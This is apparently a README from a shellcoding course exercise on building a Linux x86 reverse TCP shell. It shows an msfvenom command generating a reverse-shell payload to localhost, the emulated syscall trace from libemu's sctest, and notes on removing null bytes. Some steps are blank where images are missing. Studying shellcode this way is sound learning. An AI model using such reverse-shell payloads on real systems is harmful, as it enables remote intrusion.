

# Exercise 2


## Usage

```
python3 wrapper.py $IP $PORT
```


If there are not input variables, the program asks for them:




## Steps


### 1 - Get the syscalls with sctest

Get "sctest" result (also using *libemu.sh* script in **scripts/** folder):


```
msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1 | ./sctest -vvv -Ss 10000 -G reverseshell.dot
-------------------------------------

sh libemu.sh "msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1" reverseshell | tee libemu_res/libemu_res.txt
```

#### Result:

```
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 47138 (port=8888);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 16777343 (host=127.0.0.1);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

### 2 - Write every syscall in order

I will use the same values as the *sctest* output.

For thtat, first get the hexadecimal values for every syscall (for example, using *syscallhex.sh* script in **scripts/** folder):
```
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | listen

printf "%x\n" 363

-------------------------------------

sh syscallhex.sh listen
```


## Deleting NOPs

First, there are NOPS:


One example is the use of [socket]:


Which creates these NOPS:


Using Sublime Text it is possible to replace them with "esi", a register which is not being used:


Then, it seems there are not more NOP values:


It is possible to check it using objdump (in this case through the script *clean.sh* from the **scripts/** folder) and grep:


## Adding text messages


## Argv tests
Get Argc value: 	
https://forum.nasm.us/index.php?topic=889.0
